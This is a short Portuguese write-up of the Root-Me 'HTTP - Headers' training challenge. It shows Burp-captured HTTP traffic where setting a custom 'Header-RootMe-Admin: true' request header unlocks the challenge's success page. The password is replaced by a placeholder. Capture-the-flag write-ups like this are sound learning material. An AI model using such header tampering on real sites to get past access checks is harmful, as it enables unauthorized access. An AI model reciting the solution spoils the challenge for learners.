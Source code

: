 # HTTP - Headers

Capturando a resposta da requisição com Burp Suit há um parâmetro adicional:
<pre>HTTP/1.1 200 OK
Server: nginx
Date: Mon, 03 Feb 2020 20:34:16 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Header-RootMe-Admin: none</pre>

Então podemos adiciona-lo na requisição:
<pre>GET /web-serveur/ch5/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Header-RootMe-Admin: true</pre>

Resposta:
<pre>HTTP/1.1 200 OK
Server: nginx
Date: Mon, 03 Feb 2020 20:49:40 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Header-RootMe-Admin: none
Content-Length: 359

<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<p>Content is not the only part of an HTTP response!</p>
<p>You dit it ! You can validate the challenge with the password (password_here)</p></body>
</html></pre>
